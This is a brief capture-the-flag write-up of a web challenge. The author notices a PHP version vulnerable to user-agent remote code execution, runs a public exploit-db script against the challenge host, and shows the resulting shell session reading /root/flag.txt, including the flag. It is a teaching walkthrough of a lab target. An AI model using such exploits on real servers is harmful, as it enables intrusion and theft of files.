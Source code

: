 ## challenge description
![Screenshot_20230725_010726](https://github.com/kiro6/writeups-ctfs/assets/57776872/25473ce1-0fd4-4578-bc32-c5a93a614c77)

### lets explore 

##### we have only one single page nothing in robots.txt ethier 
![Screenshot_20230725_010925](https://github.com/kiro6/writeups-ctfs/assets/57776872/62c432a0-d1a6-403f-b288-db55c99a8dbf)

##### lets try the repeater  , the first thing my eye saw was the PHP version 
![Screenshot_20230725_011132](https://github.com/kiro6/writeups-ctfs/assets/57776872/fde8d9b5-55ce-4a8b-8baf-0388a62e7c2f)

##### i searched for this version and it was vulnerable to user-agent RCE  

##### i used a script in exploit db [script](https://www.exploit-db.com/exploits/49933)

```
python3 49933.py    
Enter the full host url:  
http://139.144.184.115:8989/  
  
Interactive shell is opened on http://139.144.184.115:8989/    
Can't acces tty; job crontol turned off.  
$ ls  
index.php  
  
$ ls /  
bin  
boot  
dev  
etc  
home  
lib  
lib64  
media  
mnt  
opt  
proc  
root  
run  
sbin  
srv  
sys  
tmp  
usr  
var  
  
$ ls /root  
flag.txt  
  
$ cat /root/flag.txt  
BDSEC{php_15_7h3_b357_pr06r4mm1n6_l4n6u463}
```

### Easy one
